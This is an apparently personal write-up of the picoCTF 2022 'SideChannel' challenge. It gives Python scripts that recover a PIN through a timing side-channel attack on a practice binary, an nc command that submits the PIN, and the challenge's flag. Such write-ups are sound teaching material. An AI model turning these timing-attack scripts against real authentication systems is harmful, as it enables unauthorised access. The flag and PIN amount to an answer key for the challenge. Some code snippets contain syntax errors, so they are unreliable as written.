 ```yaml
---
title: "picoCTF 2022 SideChannel Writeup"
date: 2022-04-08T19:16:29+08:00
description: "PicoCTF 2022 forensics problem SideChannel writeup"
---
```

## The problem
![](https://s2.loli.net/2022/04/08/y8qCUfcs6dx4WpV.png)
[link to the problem](https://play.picoctf.org/practice/challenge/298?category=4&originalEvent=70&page=1)

### Hints
1. Read about "timing-based side-channel attacks."
2. Attempting to reverse-enginner or exploit the binary won't work
3. Run the attacks against the `pin_checker` binary

## Solution

### Running the binary
A problem that would likely occur when solving this problem is running the binary.

The binary provided by picoCTF is not compatible with my local machine(Macbook).
However, the binary could be easily executed within picoCTF's webshell.

First, download the binary:
```shell
wget https://artifacts.picoctf.net/c/149/pin_checker`
chmod +x ./pin_checker #give permission to run the binary
./pin_checker #run the pin checker binary
```
A prompt for an 8 digit code should be shown:
```
Please enter your 8-digit PIN code:
11111111
8
Checking PIN...
Access denied.
```

### Timing based side channel attack
In hint 1, we can see that we're supposed to look up "timining based side channel attack"

After some digging on the internet, you'll find that timing based side channel attacks refers to the behavior of certain programs where the timing of execution based on different inputs.

Suppose the pin checking function in our pin checker is implemented as the following:
```python
def check(PIN, inp):
  if len(PIN) != len(inp):
    return False
  for i in range(len(PIN)):
    if(PIN[i]!=inp[i]]):
      return False
  return True
```
This function will execute for a longer time if the match between user input and the correct PIN is longer.

Thus, we can write a simple script to verify this vulnerbility.

```python
import time, os
TEST_COUNT = 10
LEN = 8
CHOICES = "0123456789"
prefix = ""

for c in CHOICES:
  cur = prefix+c+'0*(LEN-len(prefix)-1)
  foo = 0
  for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
    start = time.time()
    os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
    foo += (time.time()-start)
  avgtime = foo/TEST_COUNT
  print(f"{cur}: {avgtime}")
```

The results:

```
00000000: 0.23883512020111083
10000000: 0.2588793277740479
20000000: 0.25079033374786375
30000000: 0.28905391693115234
40000000: 0.4896090030670166
50000000: 0.27194507122039796
60000000: 0.24216597080230712
70000000: 0.268372631072998
80000000: 0.2515885591506958
90000000: 0.25005943775177003
```

As we can see, guesses starting with '4' takes significantly longer to execute compared to guesses starting from all the other numbers. The exploit is working.

Therefore, instead of manually testing this technique for 8 times, we could instead automate this by modifying our program.

```python
import time, os
TEST_COUNT = 4 # set this to a lower number for faster results
LEN = 8
CHOICES = "0123456789"

def check(prefix):
  mxtime = -1
  res = ''
  for c in CHOICES:
    cur = prefix+c+'0'*(LEN-len(prefix)-1)
    foo = 0
    for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
      start = time.time()
      os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
      foo += (time.time()-start)
    avgtime = foo/TEST_COUNT
    if avgtime>mxtime:
      mxtime = avgtime
      res = c
  return res


def main():
  prefix = ''
  for i in range(7):
    c = check(prefix)
    prefix+=c
    print(c)
  # Check the final number(do not hide the results)
  for c in CHOICES:
    cur = prefix+c
    print(f"------ trying {cur} --------")
    os.system(f"echo '{cur}' | ./pin_checker")

main()
```

After running the program, you should see the results:
```
4
8
3
9
0
5
1
------ trying 48390510 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.

...

------ trying 48390513 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.

... 

------ trying 48390519 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.
```
When checking for the pin `48390513`, "access granted" as shown.
Finally, we can take the pin, and get the flag from the server.
```shell
echo 48390513 | nc saturn.picoctf.net 53932
```

The results:

```
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_18704dda}
```
thus the flag is `picoCTF{t1m1ng_4tt4ck_18704dda}`
